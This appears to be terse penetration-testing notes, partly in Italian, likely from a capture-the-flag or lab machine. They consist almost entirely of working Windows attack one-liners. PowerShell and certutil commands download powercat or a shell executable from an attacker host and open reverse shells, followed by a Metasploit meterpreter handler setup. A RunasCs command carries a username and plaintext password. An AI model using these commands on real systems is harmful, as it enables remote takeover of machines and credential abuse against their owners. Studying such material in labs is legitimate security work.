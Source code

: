 locate powercat.ps1

powershell iex (New-Object Net.WebClient).DownloadString('http://{IP}:{PORT1}/powercat.ps1');Invoke-powercat -Reverse -IPAddress {IP} -Port {PORT2}


powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.8.246.240:9003/powercat.ps1');powercat -c 10.8.246.240 -p 9002 -e cmd"




best way is msfvenom

https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.246.240:9003/shell.exe','shell.exe'); Start-Process 'shell.exe'"







-----------
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.8.246.240:9003/powercat.ps1');powercat -c 10.8.246.240 -p 9001 -e cmd"

una volta dentro fare
da kali
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom

da dentro
certutil -urlcache -f http://10.8.246.240:9003/shell.exe shell.exe

msfconsole -q 
use multi/handler
set LHOST e LPORT
set payload windows/meterpreter/reverse_tcp
run


.\shell.exe





















scarica runascs
certutil -urlcache -f http://10.8.246.240:9003/RunasCs.exe RunasCs.exe

.\RunasCs.exe alaading f8gQ8fynP44ek1m3 powershell.exe -r {IP}:{PORT}